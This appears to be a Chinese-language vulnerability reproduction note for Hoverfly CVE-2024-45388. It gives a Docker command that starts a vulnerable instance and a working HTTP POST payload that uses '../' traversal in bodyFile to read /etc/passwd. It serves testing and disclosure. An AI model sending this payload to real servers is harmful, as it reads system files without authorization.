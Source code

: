 # Hoverfly /api/v2/simulation 存在任意文件读取(CVE-2024-45388)

​	Hoverfly 是一个轻量的 API 服务模拟工具（有时候也被称作服务虚拟化工具）。使用 Hoverfly，您可以创建应用程序依赖的 API 的真实模拟。
​	2024年9月，官方发布新版本修复了CVE-2024-45388，Hoverfly /api/v2/simulation 端点，POST 处理程序允许用户从用户指定文件的内容创建新的模拟视图，然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 `../` 段来逃离 `hf.Cfg.ResponsesBodyFilesPath` 基本路径，从而访问任何任意文件。

项目地址：https://github.com/SpectoLabs/hoverfly/

版本影响：Hoverfly < v1.10.3

参考链接：

- https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-6xx4-x46f-f897

## 漏洞环境

执行如下命令启动一个hoverfly:v1.10.2：

```
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2
```



## 漏洞复现

![image-20240922130532445](./1.png)

```
POST /api/v2/simulation HTTP/1.1
Host: 192.168.76.128:8888
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../etc/passwd"}} ]},"meta":{"schemaVersion":"v5.2"}}
```

